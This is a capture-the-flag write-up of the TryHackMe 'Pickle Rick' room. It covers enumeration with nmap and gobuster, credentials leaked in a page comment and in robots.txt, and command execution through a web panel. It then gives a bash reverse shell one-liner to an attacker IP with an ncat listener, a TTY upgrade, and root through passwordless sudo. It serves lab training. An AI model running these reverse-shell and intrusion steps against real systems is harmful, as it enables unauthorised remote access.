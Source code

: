 # Writeup for [Pickle Rick](https://tryhackme.com/room/picklerick) from [Try Hack Me](https://tryhackme.com)
> Note: I will only be showcasing how to get **root** on the box, I will not answer any of the questions from the Try Hack Me room.


## Table of Content
1. [Information Gathering and Enumeration](#information-gathering-and-enumeration)
2. [Gaining Access](#gaining-access)
3. [Privilege Escalation](#privilege-escalation)

## Information Gathering and Enumeration
As usual, we are going to start things off with a simple nmap scan.  
```
nmap -sC -sV -oN nmap/initial -v 10.10.2.255
```
>Arguments:
>1. -sC -> Use default scripts
>2. -sV -> Enumerate Versions
>3. -oN -> Output normal format.
>4. -v -> Verbose mode.

We can see port 22 and port 80 open, so we should definitely check out that web server first.  

We are prompted with some instructions to find **3** ingridients for Rick's pickle-reverse potion. Looking at the webpage itself we don't see anything that could help us, so we should check the source code of the page to see if there are any hints there.  

![page-source](./img/page-source.png)  

We can see a comment that gives us a potential username `R1ckRul3s`. We should write that to a file so we can potentially brute-force it if needed.

After that we should run a directory fuzzing tool. I'm going to run a tool called `gobuster`.

```
gobuster dir -u http://10.10.2.255/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -o gobuster/raft-small_root -x php,html,txt
```	
>Arguments:
>1. dir -> Directory fuzzing mode
>2. -u -> URL
>3. -w -> Wordlist to use
>4. -o -> Output results
>5. -x -> Extensions

It is good practice to run gobuster with some extensions to not only look for directories, but to also search for files commonly found in a web application.

While that's running in the background, we should check for some low hanging fruit. I'm gonna try the file `robots.txt`, because sometimes we can see some juicy info from that file.

We can check for that just by typing `http://[VICTIM IP]/robots.txt`.  

![robots](./img/robots.png)  

Hitting that page, we can only see `Wubbalubbadubdub`. This might potentially be a password so we can try to login to ssh with the username `R1ckRul3s` that we found earlier. But it looks like we can't login to SSH using this user.

Going back to gobuster, we see a **login.php** page.

![gobuster-result](./img/gobuster-result.png)  

## Gaining Access

Looks like we are prompted with a login page and we could try those credentials earlier with **Wubbalubbadubdub** as the password.

![login-php](./img/login-php.png)  

After logging in, we are redirected to a **portal.php** page. Looks like we can execute commands from this webapp.  

![cmd-panel](./img/cmd-panel.png)  

Since we can execute commands remotely, let's get ourselves a reverse shell. I have this bash reverse shell memorized, but there is an online resource for reverse shell one-liners by [pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```
bash -c 'bash -i >& /dev/tcp/10.4.7.210/9001 0>&1'
```
> Replace 10.4.7.210 and 9001 with your own Try Hack Me VPN IP Address and desired port.

We also need to setup a listener on our attacker machine **first** before executing this bash reverse shell on the web app. You might need to use `nc` instead of `ncat`.
```
ncat -lnvp 9001
```
>Arguments:
>1. -l -> Listen
>2. -n -> Don't resolve hostnames via DNS
>3. -v -> Verbose mode
>4. -p -> Specify Port Number


Running that bash reverse shell after we setup our listener, we should get a shell as **www-data**.  

![www-data](./img/www-data.png)  

We should upgrade our shell to a full tty session.
Run this command on the remote host.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

After that hit `Ctrl + Z` on your keyboard to background the netcat process, and type `stty size` to get the rows and columns of your terminal.

Then run `stty raw -echo` on your terminal. After running that command, hit `fg` and press `Enter` twice. ( Note: You won't see `fg` being typed to your terminal ). You should now be back to your remote connection on the box.

After that, set the rows and columns with `stty rows [number of rows] cols [number of columns]` from the `stty size` command.
Finally, type `export TERM=xterm` on the remote victim.

This full session gives us a few things:
1. Sometimes, programs want a full tty session before executing ( like `sudo` is sometimes a bit wonky when you don't have a proper shell, even though this is not always the case. )
2. We have **tab** autocomplete for commands and we can clear the screen.
3. We are able to use terminal applications like vim or nano without breaking the formatting of our terminal.

## Privilege Escalation

After getting our reverse shell, we should try the low hanging fruit. I always start with `sudo -l` to see if my current user can run sudo commands.

Looks like that our user **www-data** can run sudo on everything,anywhere, and **without** a password. We can just run `sudo bash` to get a root shell.

![root](./img/root.png)